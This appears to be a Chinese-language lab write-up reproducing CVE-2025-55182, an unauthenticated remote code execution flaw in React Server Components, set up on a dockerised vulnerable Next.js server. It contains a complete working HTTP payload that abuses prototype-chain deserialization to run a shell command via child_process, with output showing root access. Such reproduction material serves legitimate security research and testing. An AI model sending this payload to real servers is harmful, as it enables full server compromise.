

# React Server Components 远程代码执行漏洞 (CVE-2025-55182)

React Server Components (RSC)是React的一项功能，允许开发者在服务器上渲染组件并将结果发送给客户端。

React Server Components中存在一个未授权的远程代码执行漏洞。攻击者可以向任何Server Function端点发送精心构造的恶意HTTP请求，当React对该请求进行反序列化时，即可在服务器上实现远程代码执行。该漏洞影响`react-server-dom-webpack`、`react-server-dom-parcel`和`react-server-dom-turbopack`的19.0到19.2.0版本，以及依赖这些包的框架（如Next.js）。

参考链接：

- <https://react.dev/blog/2025/12/03/critical-security-vulnerability-in-react-server-components>
- <https://nextjs.org/blog/CVE-2025-66478>
- <https://github.com/ejpir/CVE-2025-55182-research>
- <https://cloud.projectdiscovery.io/library/CVE-2025-55182>
- <https://github.com/lachlan2k/React2Shell-CVE-2025-55182-original-poc>

## 环境搭建

虽然这个漏洞是出现于React Server Components中，但Next.js作为最流行的React框架，在Next.js 15版本后已经全面支持React Server Components。因此，我们可以使用Next.js来复现漏洞。

执行如下命令启动一个存在漏洞的Next.js 15.5.6服务器：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:3000`即可看到应用程序。

## 漏洞复现

该漏洞是由于React Server Components在解码Payload时的缺陷导致的。通过在序列化数据中注入特定字段，攻击者可以遍历原型链并执行任意代码。

发送如下数据包，即可执行命令`id`：

```http
POST / HTTP/1.1
Host: localhost
Next-Action: x
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Length: 758

------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="0"

{
  "then": "$1:__proto__:then",
  "status": "resolved_model",
  "reason": -1,
  "value": "{\"then\":\"$B1337\"}",
  "_response": {
    "_prefix": "var res=process.mainModule.require('child_process').execSync('id').toString().trim();;throw Object.assign(new Error('NEXT_REDIRECT'),{digest: `NEXT_REDIRECT;push;/login?a=${res};307;`});",
    "_chunks": "$Q2",
    "_formData": {
      "get": "$1:constructor:constructor"
    }
  }
}
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="1"

"$@0"
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="2"

[]
------WebKitFormBoundaryx8jO2oVc6SWP3Sad--
```

发送请求后，在响应头的`x-action-redirect`字段中可以看到`id`命令的执行结果：

```
x-action-redirect: /login?a=uid=0(root) gid=0(root) groups=0(root);push
```


